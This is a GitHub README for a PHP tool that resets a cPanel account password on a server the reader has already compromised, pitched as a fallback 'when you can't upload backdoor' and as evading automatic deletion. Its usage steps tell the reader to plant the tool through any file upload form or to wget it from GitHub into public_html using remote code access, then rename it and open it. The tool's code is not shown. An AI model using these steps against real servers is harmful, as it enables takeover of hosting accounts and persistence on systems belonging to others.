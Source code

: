 # Cpanel Password Reset Tools

[![Build](https://img.shields.io/badge/Supported_OS-Linux-orange.svg)]()
[![undefined](https://img.shields.io/github/release/radenvodka/Recsech.svg)](https://github.com/naufalardhani/cpanel-pass-reset/releases/latest)

An easy tool to reset cpanel password when you can't upload backdoor to server. This tool will be useful only if the password reset feature on cpanel is activated.

How to usage? Check this https://www.naufalardhani.com/2018/10/tutorial-reset-password-cpanel-terbaru.html


<p align="center">
  <img src="https://github.com/naufalardhani/cpanel-pass-reset/blob/master/v2.png" width="700" alt="accessibility text">
</p>


# What are the advantages?
- Can be uploaded to the server without bypass
- It will not be deleted automatically by the server

# How to usage
- You can upload this tool via any file upload form and access it!
- If you have a remote code access, you can write command like this 
1. `cd /public_html`
2. ```wget https://raw.githubusercontent.com/naufalardhani/cpanel-pass-reset/master/web-bassed-v2.php```
3. `mv web-bassed-v2.php cp.php`
4. `Access it site.com/cp.php` 
